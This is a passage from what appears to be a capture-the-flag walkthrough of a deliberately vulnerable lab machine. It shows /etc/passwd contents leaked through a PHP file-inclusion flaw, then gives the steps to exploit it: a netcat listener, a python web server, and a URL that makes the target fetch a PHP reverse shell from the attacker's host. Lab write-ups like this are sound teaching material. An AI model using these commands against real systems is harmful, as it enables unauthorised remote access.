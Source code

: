 ```
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
    </div>
</div>  
```

As we can see the file contents are embedded into the output, this means that this application is vulnerable. Knowing this we can make use of *<REDACTED> file inclusion* by starting a python http server, `python3 -m http.server`, and having the server get our `php-reverse-shell.php` onto the box.

```
$ nc -lnvp 9001
listening on [any] 9001 ... 
```
        
First set up a `netcat` listener on your attacking machine.

```
http://10.10.146.95/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=http://<YOUR IP>:8000/php-reverse-shell.php
```
